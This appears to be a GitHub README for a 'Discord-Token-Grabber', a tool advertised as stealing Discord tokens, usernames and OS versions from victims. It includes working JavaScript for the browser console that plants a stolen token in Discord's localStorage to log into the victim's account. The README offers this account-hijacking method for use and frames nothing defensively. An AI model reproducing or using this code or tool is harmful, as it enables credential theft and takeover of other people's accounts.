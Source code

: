 # Discord-Token-Grabber
![Token-Stealer](https://i.imgur.com/cpK3bNV.jpeg)

# Features
* Steal 
  * Discord Token
  * username
  * os version

# How to login using token
* open inspect element in https://discord.com/ ,copy and paste this code in console  

```js
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}
```
* use `login("token");` then refresh the webpage ,and you will login automatically to the account using only token
